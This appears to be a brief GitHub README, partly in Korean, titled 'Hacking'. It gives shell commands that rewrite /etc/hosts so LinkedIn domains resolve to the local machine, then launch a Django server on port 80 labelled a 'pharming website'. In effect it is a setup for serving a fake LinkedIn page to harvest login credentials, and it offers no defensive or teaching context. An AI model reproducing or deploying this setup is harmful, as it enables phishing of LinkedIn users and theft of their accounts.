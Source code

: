 # Hacking
## Requirement
1. django 설치
2. python 설치

## DNS Fishing Code
```
sudo vi /etc/hosts
sudo sed -i '1i/127.0.0.1 linkedin.co.kr' /etc/hosts
sudo sed -i '1i/127.0.0.1 linkedin.com' /etc/hosts
sudo sed -i '1i/127.0.0.1 www.linkedin.com' /etc/hosts
sudo sed -i '1i/127.0.0.1 www.linkedin.co.kr' /etc/hosts
sudo sed -i '1i/127.0.0.1 kr.linkedin.co.kr' /etc/hosts
```

## Pharming WebSite Execution
```
cd ${Clone Path}
python manage.py runserver 0.0.0.0:80
```

